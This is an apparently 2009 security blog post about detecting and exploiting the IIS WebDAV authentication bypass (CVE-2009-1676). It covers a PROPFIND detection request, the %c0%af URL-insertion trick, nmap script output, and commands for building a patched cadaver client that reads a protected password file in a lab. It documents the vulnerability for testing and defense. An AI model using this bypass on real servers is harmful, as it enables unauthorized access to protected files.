 ```yaml
---
id: 285
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=285'
permalink: /2009/webdav-detection-vulnerability-checking-and-exploitation
categories:
    - hacking
    - tools
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability (<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676">CVE-2009-1676</a>) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

<!--more-->

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is _not_ protected then it's time to break out the funky cold medina and have some fun.

<h2>Detecting if WebDAV is enabled</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2
 * IIS 5.0/Windows 2000 SP4
	
On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

<pre>
PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;propfind xmlns=&quot;DAV:&quot;&gt;
&lt;prop&gt;
&lt;getcontentlength xmlns=&quot;DAV:&quot;/&gt;
&lt;getlastmodified xmlns=&quot;DAV:&quot;/&gt;
&lt;executable xmlns=&quot;http://apache.org/dav/props/&quot;/&gt;
&lt;resourcetype xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-in xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-out xmlns=&quot;DAV:&quot;/&gt;
&lt;/prop&gt;
&lt;/propfind&gt;
</pre>

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.
	
<h2>Checking if a server is vulnerable</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.
	
<h2>Finding a vulnerable server</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4
	
Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

<pre>
> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
</pre>

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

<h2>Exploiting it!</h2>

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called <a href="http://www.webdav.org/cadaver/">cadaver</a>, and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> and after hacking away at it for awhile, we came up with <a href="/blogdata/cadaver-0.23.2-h4x.patch">a little patch</a> that makes it quite easy to exploit a server. Check <a href="/blogdata/cadaver-0.23.2-h4x.patch">the patch itself</a> for the gritty details but basically it does the following:

1) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)
2) Append the header "Translate: f" to every request (otherwise get and probably others won't work)
3) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the <a href="/blogdata/cadaver-0.23.2-h4x.patch">cadaver-0.23.2-h4x.patch</a> and apply it to the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> from the <a href="http://www.webdav.org/cadaver/">cadaver website</a>. Here's the commands:

<pre>
> mkdir cadaver-h4x
> cd cadaver-h4x
> wget /blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1 < ../cadaver-0.23.2-h4x.patch
patching file lib/neon/ne_basic.c
patching file lib/neon/ne_request.c
patching file lib/neon/ne_uri.c
> ./configure
--snip--
> make
--snip--
</pre>

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

<pre>
> ./cadaver xxx.xxx.xxx.xxx
</pre>

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

<pre>
dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
</pre>

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:
 * CD
 * LS
 * MOVE
 * PUT
 * GET
 * CAT
 * DELETE

Oddly enough, the <b>COPY</b> command does <b>NOT</b> work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

If anyone has been able to successfully exploit this on IIS 5.0 (Windows 2000), please contact me, we've been trying and can't get it to work in the lab here.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca